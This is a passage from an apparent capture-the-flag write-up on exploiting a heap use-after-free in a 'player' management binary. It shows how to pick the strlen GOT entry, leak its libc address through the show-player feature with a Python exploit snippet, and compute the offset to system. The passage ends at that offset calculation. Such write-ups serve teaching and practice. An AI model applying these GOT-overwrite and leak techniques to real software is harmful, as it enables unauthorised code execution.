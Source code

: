 Well...
[overwriting some function entry in the GOT](https://sploitfun.wordpress.com/2015/05/08/bypassing-aslr-part-iii/)
seems to be the easiest way so far, furthermore the libc that was given is a
clear hint in that direction. For example, we could overwrite some entry in the
GOT with the address of the function `system`. 


```console
$ rabin2 -R main.elf
[Relocations]
...
vaddr=0x00603030 paddr=0x00003030 type=SET_64 puts
vaddr=0x00603038 paddr=0x00003038 type=SET_64 setsockopt
vaddr=0x00603040 paddr=0x00003040 type=SET_64 strlen
vaddr=0x00603048 paddr=0x00003048 type=SET_64 chdir
vaddr=0x00603050 paddr=0x00003050 type=SET_64 __stack_chk_fail
...
```


`strlen` seems to be a perfect candidate: its first (and only) argument is a string
and it gets called at different points of the program (ex. function set_name)
with an input from the user.

We don't know the address of `system` but we can calculate it if we know
at what address the libc was loaded. For this we will need to leak
some libc-related address: the one of strlen for example.
We can do that by just showing the selected player's name, which now
points to the strlen GOT's entry.


```python
ADDR_RELOC_STRLEN = pack(0x00603040)

# Craft first player
add_player('A' * (0x18-1))  # sizeof(struct player) - 1 null byte
add_player('A' * 0xaa)      # 0xaa is just a custom big value
select_player(0)
rm_player(0)
rm_player(1)
add_player('A'*0x10 + ADDR_RELOC_STRLEN[:-1]) # We don't actually need the [:-1] as the 
                                              # address contains already few null bytes at
                                              # the end, but I left it as a reminder.

# Get the address of strlen
r.clean(1)                  # clean the input buffer
r.sendline("5")             # show player
r.recvuntil("Name: ")
leak = r.recvuntil("\n")[:-1]
```


Now let's calculate the offset from system.

```console
$ objdump -T libc.so.6 | egrep " system| strlen"
000000000008b720 g    DF .text  000000000000019c  GLIBC_2.2.5 strlen
0000000000045390  w   DF .text  000000000000002d  GLIBC_2.2.5 system
$ printf "0x%x\n" $((0x8b720-0x45390))
0x46390
```
